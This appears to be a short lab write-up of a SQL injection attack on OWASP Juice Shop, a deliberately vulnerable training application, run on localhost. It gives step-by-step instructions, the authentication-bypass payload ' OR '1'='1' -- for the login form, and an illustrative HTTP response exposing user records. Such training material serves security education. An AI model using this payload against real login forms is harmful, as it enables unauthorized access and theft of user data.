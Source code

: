 # Attack Steps: SQL Injection

## Steps to Perform the Attack
1. Go to the login form in OWASP Juice Shop (e.g., http://localhost:3000/login).
2. Enter a malicious payload in the username or password field to inject SQL code.
3. Submit the form and observe the response, which may leak database information.

## Malicious Payload and Response
**Malicious Payload:**
Use the following in the username field: ' OR '1'='1' --

**Subsequent Response:**
The attack bypasses authentication and returns user data. In Burp Suite, the response might look like this:
```
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 500

{"users": [
  {"id": 1, "username": "admin", "email": "admin@juiceshop.com"},
  {"id": 2, "username": "user", "email": "user@juiceshop.com"}
]}
```
This response shows database data due to the injection.

